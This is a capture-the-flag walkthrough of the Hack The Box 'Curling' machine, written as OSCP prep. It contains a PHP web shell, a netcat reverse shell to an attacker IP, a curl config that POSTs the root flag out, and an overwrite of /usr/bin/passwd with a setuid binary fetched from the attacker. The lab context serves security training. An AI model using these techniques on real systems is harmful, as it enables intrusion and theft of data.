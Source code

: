 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)

---

### 🧭 Recon

**Nmap full TCP scan:**
```
nmap -sT -p- --min-rate 5000 -oA nmap/alltcp 10.10.10.150
```
Ports open:
- 22/tcp (SSH)
- 80/tcp (HTTP)

**Nmap scripts and version detection:**
```
nmap -p 22,80 -sV -sC -oA nmap/scripts 10.10.10.150
```
Identified:
- [Apache](HTTP.md) 2.4.29 (Ubuntu)
- [OpenSSH](SSH) 7.6p1
- Joomla CMS on port 80

---

### 🌐 Joomla Web Enumeration

- Default page has a Joomla site titled "Curling"
- HTML source hint: `<!-- secret.txt -->`
- Navigating to `/secret.txt` reveals base64: `Q3VybGluZzIwMTgh`
- Decoded: `Curling2018!`
- Admin panel at `/administrator`, login successful with:
  - **Username**: floris
  - **Password**: Curling2018!

---

### ⚙️ Shell as www-data

**Webshell via Template Injection:**
1. Go to Templates → Beez3 → New File → PHP
2. Create `sh3ll.php` with `<?php system($_GET['0xdf']); ?>`
3. Access: `http://10.10.10.150/templates/beez3/sh3ll.php?0xdf=id`

**Interactive shell via reverse shell:**
```bash
http://10.10.10.150/templates/beez3/sh3ll.php?0xdf=cat%20/tmp/df%20|%20/bin/sh%20-i%202%3E%261%20|%20nc%2010.10.14.5%20443%20%3E%20/tmp/df
```
Listener:
```
nc -lnvp 443
```
User: `www-data`

---

### 📂 Privesc: www-data → floris

**Found in /home/floris/**:
- `password_backup`: hex-encoded multi-layer compressed file

**Extraction Process:**
1. Convert hex to binary: `xxd -r`
2. Unpack chain: `bunzip2` → `gunzip` → `bunzip2` → `tar`
3. Final file: `password.txt`

**Credentials:**
```
Username: floris
Password: 5d<wdCbdZu)|hChXll
```

Login:
```bash
su - floris
```

---

### 🔁 Privesc: floris → root

**Found folder**: `/home/floris/admin-area`

Files:
- `input`: curl config file
- `report`: output file

**pspy shows:**
```
curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
```
Runs as root every minute.

**Exfil root flag via POST:**
```text
url = "http://10.10.14.5"
data = @/root/root.txt
```
Setup listener:
```
nc -nlvp 80
```

**Alternative:** Read directly from file:
```text
url = "file:///root/root.txt"
output = /tmp/.0xdf
```

---

### 🧨 Root Shell via Overwrite

Create a C program:
```c
void main() {
    setuid(0);
    setgid(0);
    execl("/bin/sh", "sh", 0);
}
```
Compile:
```
gcc -o setuid setuid.c
```
Host on HTTP server, then:
```text
url = "http://10.10.14.5/setuid"
output = /usr/bin/passwd
```
When cron runs:
```
/usr/bin/passwd → root shell
```

---

### 🧪 Beyond Root: Dirty Sock Exploit

**snapd version**: vulnerable
```
snap version
```
Upload & run DirtySock:
```
python3 dirty_sockv2.py
```
New user created:
- **Username**: dirty_sock
- **Password**: dirty_sock

Root access:
```bash
su dirty_sock
sudo su
```

**Note**: Setuid scripts (like Python) don't elevate privileges on most Linux systems.


**Source**: https://0xdf.gitlab.io/2021/03/30/htb-curling.html

